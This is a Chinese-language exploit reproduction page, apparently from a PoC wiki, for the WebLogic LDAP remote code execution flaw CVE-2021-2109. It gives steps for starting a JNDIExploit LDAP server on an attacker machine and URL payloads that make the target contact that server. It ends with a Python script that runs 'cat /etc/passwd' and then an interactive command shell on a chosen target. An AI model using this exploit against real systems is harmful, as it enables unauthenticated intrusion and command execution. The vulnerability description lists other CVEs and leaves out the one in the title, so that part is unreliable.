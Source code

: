 # Weblogic LDAP 远程代码执行漏洞 CVE-2021-2109

## 漏洞描述

2021年1月20日，绿盟科技监测发现Oracle官方发布了2021年1月关键补丁更新公告CPU（Critical Patch Update），共修复了329个不同程度的漏洞，其中包括7个影响WebLogic的严重漏洞（CVE-2021-1994、CVE-2021-2047、CVE-2021-2064、CVE-2021-2108、CVE-2021-2075、CVE-2019-17195、CVE-2020-14756），未经身份验证的攻击者可通过此次的漏洞实现远程代码执行。CVSS评分均为9.8，利用复杂度低。建议用户尽快采取措施，对上述漏洞进行防护。

## 漏洞影响

```
WebLogic Server 10.3.6.0.0
WebLogic Server 12.1.3.0.0
WebLogic Server 12.2.1.3.0
WebLogic Server 12.2.1.4.0
WebLogic Server 14.1.1.0.0
```

## 环境搭建

```plain
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/CVE-2020-14882
docker-compose up -d
```

访问 http://xxx.xxx.xxx.xxx:7001 正常即可

![img](./images/202202091226989.png)

## 漏洞复现

访问一下URL http://xxx.xxx.xxx.xxx:7001/console/css/%2e%2e%2f/consolejndi.portal

![img](./images/202202091226984.png)

如果有此页面未授权可访问，且在影响范围内则可能出现漏洞

下载漏洞攻击需要的 LDAP启动脚本

[下载链接](https://github.com/feihong-cs/JNDIExploit/releases/tag/v.1.11)

![img](./images/202202091226092.png)



下载到服务器上启动

```shell
java -jar JNDIExploit-v1.11.jar -i xxx.xxx.xxx.xxx (服务器地址)
```

![img](./images/202202091226065.png)

- 部分服务器注意放行端口

然后配合 Weblogic未授权范围 命令执行

```plain
/console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho;AdminServer%22)
```

- 注意 ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho 这里 LDAP服务器地址第三个分隔符号为 ;

![img](./images/202202091226090.png)

登录后台可使用此POC，未授权的话用上面的

```plain
/console/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho;AdminServer%22)
```

## 漏洞POC 

- 注意参数格式 Ldap >>> ldap://xxx.xxx.xxx;xxx:1389 中的分号
- 如果使用其他的利用Ldap服务请自行更改 POC关键字

- 此POC仅仅检验有未授权的情况

```python
import requests
import sys
import re
requests.packages.urllib3.disable_warnings()
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Weblogic 多个版本                                           \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mLDAP        >>> ldap://xxx.xxx.xxx;xxx:1389                         \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, ldap_url, cmd):
    vuln_url = target_url + "/console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22{}/Basic/WeblogicEcho;AdminServer%22)".format(ldap_url)
    print('\033[36m[o] 正在请求: {}'.format(vuln_url))
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "cmd": cmd
    }
    try:
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "root:" in response.text:
            print("\033[32m[o] 目标{}存在漏洞 \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
        else:
            print("\033[31m[x] 命令执行失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请检查参数和Ldap服务是否正确 \033[0m", e)

def POC_2(target_url, ldap_url, cmd):
    vuln_url = target_url + "/console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22{}/Basic/WeblogicEcho;AdminServer%22)".format(ldap_url)
    print('\033[36m[o] 正在请求: {}'.format(vuln_url))
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "cmd": cmd
    }
    try:
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[32m[o] 响应为:\n{} \033[0m".format(response))
    except Exception as e:
        print("\033[31m[x] 请检查参数和Ldap服务是否正确 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    ldap_url = str(input("\033[35mLdap >>> \033[0m"))
    POC_1(target_url, ldap_url, cmd="cat /etc/passwd")

    while True:
        cmd = input("\033[35mCmd >>> \033[0m")
        if cmd == "exit":
            sys.exit(0)
        else:
            POC_2(target_url, ldap_url, cmd)
```

![img](./images/202202091226126.png)